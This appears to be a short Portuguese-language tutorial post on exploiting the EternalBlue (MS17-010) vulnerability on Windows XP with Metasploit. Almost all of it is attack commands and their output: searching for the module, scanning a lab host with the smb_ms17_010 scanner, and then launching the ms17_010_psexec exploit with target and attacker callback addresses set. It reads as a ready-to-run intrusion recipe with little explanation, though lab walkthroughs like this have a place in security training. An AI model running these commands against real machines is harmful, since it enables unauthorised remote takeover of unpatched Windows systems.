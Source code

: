 ```yaml
---
title: Exploitation - Eternal Blue ( WinXP )
category: post
---
```


**Explorando o EternalBlue WindowsXP**


#### Enter msfconsole and search vuln

```ruby
msfconsole
search eternalblue
```

OR

```ruby
search ms17-010
```

---

#### Primeiramente Verificamos se a maquina de destino eh um Windows XP Vuln

```ruby
use auxiliary/scanner/smb/smb_ms17_010
set RHOST 10.l0.1.4
exploit
```

Se tudo der certo, obtemos uma resposta parecida com o seguinte:

```text
[+] 10.l0.1.4:445      - Host is likely VULNERABLE to MS17-010! - Windows 5.1
[*] 10.l0.1.4:445      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

---


#### Agora Vamos Explorar a maquina que identificamos que esta vulneravel

```ruby
back

use exploit/windows/smb/ms17_010_psexec

set RHOST 10.l0.1.4

set LHOST 10.l0.1.2

run
```